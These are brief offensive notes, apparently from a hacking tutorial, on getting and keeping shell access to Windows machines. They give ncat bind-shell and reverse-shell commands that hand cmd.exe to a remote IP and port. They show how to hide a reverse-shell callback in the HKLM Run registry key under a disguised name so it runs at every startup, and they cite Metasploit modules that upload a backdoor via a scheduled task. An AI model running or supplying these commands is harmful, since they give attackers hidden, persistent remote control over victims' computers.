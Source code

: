 you can use ncat in a similar way to nc -e with. ncat -l -p 2121 -e cmd.exe for bind shell. or ncat -e cmd.exe IP PORT for reverse shell.

To get PERSISTENCE with ncat we can add a command key to the registry.

setup a listener on your machine.

in regedit, goto HKEY_LOCAL_MACHNE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run. Rightclik>New>String Value

set name is something like winconfig to hide ncat and set value as the path to the file and ip and port and -e to connect.eg "C:\Windows\System32\winconfig.exe 192.168.1.1 2121 -e cmd.exe"
this will run ncat at startup

this can be done through metasploit also and meterpreter to get more features than ncat.

in metasploit the s4u_persistence module gets persistence using an existing session to upload a backdoor and set scheduled task. so you can now startup a new listener and catch the reverse shell when its triggered.

there are various persistence modules, one main one for windows is windows/local/persistence but you have to change the lport to be different to the sessions lport.

